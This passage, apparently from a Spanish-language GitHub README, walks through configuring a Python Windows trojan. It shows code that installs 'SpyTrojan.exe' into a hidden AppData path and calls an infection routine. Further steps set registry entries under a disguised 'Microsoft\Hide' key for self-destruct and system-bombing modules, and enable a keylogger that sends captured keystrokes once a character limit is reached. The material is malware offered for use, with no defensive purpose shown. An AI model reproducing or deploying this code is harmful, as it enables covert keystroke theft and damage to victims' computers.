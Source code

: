                         delay=0,
                        path_software='C:\\Users\\' + str(os.getlogin()) + r'\AppData\Local\Microsoft\Windows\Shell\temp',
                        name_software= 'SpyTrojan.exe', #Cambie Aquí#
                        username=str(os.getlogin())
                        )
        trojan.set_values()
        trojan.infection()
    ````
</details> 

* __Paso 2:__  Cambiar configuración del `AutoDestruction # No disposible en ésta versión`

    <details>
    <summary> Ver código</summary>

    ![](https://imgur.com/aPNBra0.png)

    ````py
    AutoDestruction(pathReg=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\AutoDestruction',
                        active=0,       # No disposible en ésta versión
                        active_now=0,   # No disposible en ésta versión
                        day=00,         # No disposible en ésta versión
                        year=0000       # No disposible en ésta versión
                        ).set_values()
    ````

</details> 

* __Paso 3:__  Cambiar configuración del `BombWindows # No disposible en ésta versión`

    <details>
    <summary> Ver código</summary>

    ![](https://imgur.com/zqVuye3.png)

    ````py
    BombWindows(pathReg=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\BombWindows',
                    active=0,   # No disposible en ésta versión
                    active_now=0,   # No disposible en ésta versión
                    day=00,         # No disposible en ésta versión
                    year=0000       # No disposible en ésta versión
                    ).set_values()
    ````
</details> 

* __Paso 4:__  Cambiar configuración del `Keylogger`

    <details>
    <summary> Ver código</summary>

    ![](https://imgur.com/4y9GVdF.png)

    ````py
    Keylogger(pathReg=r'HKEY_CURRENT_USER\SOFTWARE\Microsoft\Hide\Keylogger',
                active=1,         # Keylogger Habilitado = 1 °° Keylogger Habilitado = 1
                limit=150         # Limite de caracteres, al llegal al limite, envía el registro de teclas,el limite no puede pasar de 2000
                ).set_values()
    ````
